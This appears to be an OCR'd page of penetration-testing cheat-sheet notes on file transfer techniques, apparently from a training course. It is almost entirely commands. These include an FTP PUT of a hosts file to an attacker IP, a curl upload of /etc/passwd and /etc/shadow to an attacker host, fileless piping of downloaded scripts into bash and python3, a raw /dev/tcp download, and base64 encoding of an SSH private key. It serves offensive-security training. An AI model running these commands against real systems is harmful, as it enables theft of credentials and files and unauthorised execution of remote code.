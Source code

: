     1. `echo open 192.168.49.128 > ftpcommand.txt`
    2. `echo USER anonymous >> ftpcommand.txt`
    3. `echo binary >> ftpcommand.txt`
    4. `echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt`
    5. `echo bye >> ftpcommand.txt`
    6. `echo bye >> ftpcommand.txt`
    7. `open 192.168.49.128`
    8. `USER anonymous`
    9. `PUT c:\windows\system32\drivers\etc\hosts`
    10. `bye`
## **Linux File Transfer Methods**
1. Check File MD5 hash: `md5sum id_rsa`
2. Encode SSH Key to Base64: `cat id_rsa |base64 -w 0;echo`
3. Decode the File: `echo -n 'LS0tL(...))tLQo=' | base64 -d > id_rsa`
#### **Web Downloads with Wget and cURL**
1. Download a File Using wget: `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
2. Download a File Using cURL: `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
#### **Fileless Attacks Using Linux**
1. Fileless Download with cURL: `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
2. Fileless Download with wget: `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`
#### **Download with Bash (/dev/tcp)**
1. Connect to the Target Webserver: `exec 3<>/dev/tcp/10.10.10.32/80`
2. HTTP GET Request: `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
3. Print the Response: `cat <&3`
#### **SSH Downloads**
1. Enabling the SSH Server: `sudo systemctl enable ssh`
2. Starting the SSH Server: `sudo systemctl start ssh`
3. Checking for SSH Listening Port: `netstat -lnpt`
4. Linux - Downloading Files Using SCP: `scp plaintext@192.168.49.128:/root/myroot.txt . `
### **Linux Upload Operations**
1. Start Web Server: `sudo python3 -m pip install --user uploadserver`
2. Pwnbox - Create a Self-Signed Certificate: `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
3. The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver: `mkdir https && cd https`
4. Pwnbox - Start Web Server: `sudo python3 -m uploadserver 443 --server-certificate ~/server.pem`
5. Linux - Upload Multiple Files: `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`
### **Alternative Web File Transfer Method**
1. Creating a Web Server with Python3: `python3 -m http.server 9999`
2. Creating a Web Server with Python2.7: `python2.7 -m SimpleHTTPServer`
3. Creating a Web Server with PHP: `php -S 0.0.0.0:8000`
4. Creating a Web Server with Ruby: `ruby -run -ehttpd . -p8000`
#### **SCP Upload**
1. File Upload using SCP: `scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/`
## **Transferring Files with Code**
1. Python 2 - Download: `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`
2. Python 3 - Download: `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`
3. PHP - Downloads a file using PHP file_get_contents() and saves it with file_put_contents(): `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`